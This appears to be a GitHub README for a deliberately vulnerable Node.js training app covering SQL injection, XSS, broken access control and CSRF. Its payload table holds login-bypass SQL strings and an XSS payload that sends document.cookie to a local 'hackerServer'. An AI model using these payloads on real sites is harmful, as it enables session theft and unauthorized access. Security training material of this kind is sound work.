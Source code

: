 ## (VWA) Vulnerable Web Application 🚀

That application demonstrates top 5 (**SQli, XSS, Broken Access Control, CSRF, SSRF**) critical web vulnerabilities. You can run and test them out!

_The whole project consist of mini projects with each vulnerability_

P.S: I tried not to use any databases for simpler and faster installation but for some vulnerabilities it was required such as: **SQli**

---

## Quick Installation

(Go to folder with mini project and do **npm i**)

```plaintext
cd VWA/sqli/1
npm i

cd VWA/xss/1
npm i

cd VWA/xss/hackerServer
npm i
```

If you want to test SQli you need to create **postgresql** database with that credentials

![](https://33333.cdn.cke-cs.com/kSW7V9NHUXugvhoQeFaf/images/bacbbf3d5f416e47b3d1f8b3c3ac4e537c5457ba8868a574.png)

---

## Payloads

| Vulnerability | Payload | Where to Type | What it do |
| --- | --- | --- | --- |
| SQli | ' OR '1' = '1 | Password field | Allow to get all users |
| SQli | admin' -- | Password field | Allow to login only by username |
| XSS | \<svg onload=alert(1)> | PostInfo field | Simple alert |
| XSS | \<svg onload='var i = new Image(); i.src="http://localhost:3001/acceptCookie?cookie="+btoa(document.cookie);'> | PostInfo field | Allow to send user cookie to **hackerServer** website |
| Broken Access Control | Any logged in user can edit **isAdmin** cookie parameter | DevTools Application Cookie | Get access to admin page |
| CSRF | Run hacker server | Send hacker server url to logged in user | Allow hacker make a post on the website if user click the link |

---

## To-Do

*   [x] SQli vuln.
*   [x] XSS vuln.
*   [x] Broken Access Control vuln.
*   [x] CSRF vuln.
*   [ ] SSRF vuln.

